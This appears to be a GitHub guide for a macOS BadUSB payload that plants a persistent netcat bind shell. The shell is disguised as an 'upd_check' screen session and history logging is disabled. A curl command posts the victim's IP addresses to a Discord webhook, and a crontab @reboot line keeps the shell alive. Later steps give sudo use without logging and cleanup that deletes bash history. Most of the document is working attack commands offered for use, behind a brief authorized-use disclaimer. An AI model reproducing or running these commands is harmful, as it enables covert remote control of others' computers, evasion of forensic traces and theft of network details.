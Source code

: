 # **Mac Endless Reverse Shell**

### **Introduction**

This guide provides step-by-step instructions for setting up an interactive reverse shell on MacOS systems using **`nc`** (netcat). It is intended for educational purposes or authorized security testing only. Unauthorized access to computer systems is illegal and unethical. Please ensure you have proper authorization before attempting any actions described in this guide.

For additional commands and data on reverse shells, refer to the [HackTricks documentation](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys#full-tty).

## **Setup Instructions**

---

### **1. Establishing the Reverse Shell on the Target Machine via BadUSB**

**Objective:** Start a reverse shell listener on the target machine as a background process using **`screen`**.

`unset HISTFILE; screen -dmS upd_check bash -c 'unset HISTFILE; set +o history; trap "pkill -P \$\$" SIGINT SIGTERM; while true; do rm -f /tmp/f; mkfifo /tmp/f; nc -l 9123 < /tmp/f | bash -i > /tmp/f 2>&1 & nc_pid=$!; (sleep 300 && kill -9 $nc_pid 2>/dev/null) & wait $nc_pid; done'`

**Description**:

- **`screen -dmS upd_check`**: Starts a detached screen session named "upd_check" to run the following command.
- **`bash -c '...'`**: Launches a Bash shell and executes the provided command within it.
- **`unset HISTFILE`**: Prevents Bash from saving command history to a file.
- **`set +o history`**: Disables command history for the current shell session.
- **`trap "pkill -P \$\$" SIGINT SIGTERM`**: Sets up a trap to kill any child processes spawned by the command upon receiving SIGINT or SIGTERM signals (e.g., Ctrl+C).
- **`while true; do ... done`**: Creates an infinite loop to continuously execute the following commands.
- **`rm -f /tmp/f`**: Removes any existing FIFO file named "/tmp/f".
- **`mkfifo /tmp/f`**: Creates a new FIFO (named pipe) file named "/tmp/f" for communication.
- **`nc -l 9123 < /tmp/f | bash -i > /tmp/f 2>&1 &`**: Sets up a netcat listener on port 9123, redirecting input/output to the FIFO file, and starts a Bash shell with interactive mode (-i).
- **`nc_pid=$!`**: Stores the process ID (PID) of the netcat listener.
- **`(sleep 300 && kill -9 $nc_pid 2>/dev/null) &`**: Initiates a background process to sleep for 300 seconds (5 minutes) and then forcibly terminates the netcat listener process to trigger automatic reconnection.
- **`wait $nc_pid`**: Pauses execution until the netcat listener process terminates.

Then, send the external and internal IP addresses of the machine to a Discord channel. Replace **`YOUR_DISCORD_CHANNEL_TOKEN`** with your token inside the Ducky Script:


`external_ip=$(curl -s [ifconfig.me](http://ifconfig.me/)); internal_ips=$(ifconfig | grep -Eo 'inet (addr:)?([0-9]*\.){3}[0-9]*' | grep -v '127.0.0.1' | sed 's/inet //' | paste -sd "," -); json_payload="{\"content\": \"From Endless Reverse Shell BadUSB:\\nExternal IP: $external_ip\\nInternal IP(s): $(echo $internal_ips | sed 's/,/, /g')\\n----------------------------------------\"}"; curl -X POST -H "Content-Type: application/json" -d "$json_payload" "YOUR_DISCORD_CHANNEL_TOKEN" && unset external_ip internal_ips`

Not part of the Ducky Payload. For increased persistence, set the command as a crontab job (TCC permission is needed):
`@reboot /bin/bash -c 'unset HISTFILE; set +o history; trap "pkill -P \$\$" SIGINT SIGTERM; while true; do rm -f /tmp/f; mkfifo /tmp/f; (nc -l 9123 < /tmp/f | bash -i > /tmp/f 2>&1 || true) & nc_pid=$!; (sleep 300 && kill -9 $nc_pid 2>/dev/null || true) & wait $nc_pid; done'`

---

### **2. Configuring the Attacker's Machine**

**Objective:** Secure the reverse shell connection and prevent accidental disconnections.

- **Disable accidental interrupts:** Prevents the use of Ctrl+C from terminating the shell.

`stty intr ''  # Disable Ctrl+C`

- **Restore interrupt key:** Re-enables Ctrl+C functionality when needed.

`stty intr ^C # To reset`

- **Connecting:** Utilize **`rlwrap`** for a better shell experience when connecting to the target.

`rlwrap -r nc [TARGET_IP] 9123`

---

### **3. Managing the Session on the Victim's Machine**

**Objective:** Maintain stealth and control within the session.

- **Standard Shell Environment:** Enhances the shell for command execution without leaving history.
    
    `script -q /dev/null bash
    unset HISTFILE; set +o history && export PS1='\u@\h:\w\$'`
    
- **Executing Privileged Commands:** Executes commands as **`sudo`** without logging.
    
    `unset HISTFILE; set +o history && echo "password" | sudo -S whoami` 
    
- **Root Access:** Switch to root without command logging.
    
    `unset HISTFILE`
    

---

### **4. Cleanup on the Victim Machine**

**Objective:** Remove traces of the reverse shell session and terminate gracefully.

- **Command for cleanup processes that related to reverse shell:**

`nohup bash -c 'screen -S upd_check -X quit; sleep 3; screen -wipe; pkill -f "nc -l 9123"; ps aux | grep "[b]ash -i" | grep -v grep | awk "{print \$2}" | xargs -r kill -9; rm -f /tmp/f; rm -f ~/.bash_history' > /dev/null 2>&1 &`

- **Verification:** Confirm that all related processes are terminated and no listeners are active.

`ps aux | grep bash`

`screen -list`

`lsof -i :9123`

---

### **Important Note:**

The procedure incorporates an automatic re-establishment mechanism for the reverse shell connection every 5 minutes. This feature proves particularly valuable in scenarios where the reverse shell may be disrupted due to network instability or accidental closure of the initial connection. By utilizing a loop that periodically terminates the existing **`nc`** listener and initiates a new one, the command ensures that the attacker can regain access to the target machine without the need to redeploy the payload. This auto-reconnect functionality enhances the resilience of the reverse shell to disconnections and reinforces its persistence on the target machine, guaranteeing that temporary disruptions do not permanently sever the attacker's access.

### ***This procedure prioritizes operational discretion and effectiveness. Ensure you possess authorized access to the system before proceeding with this setup.***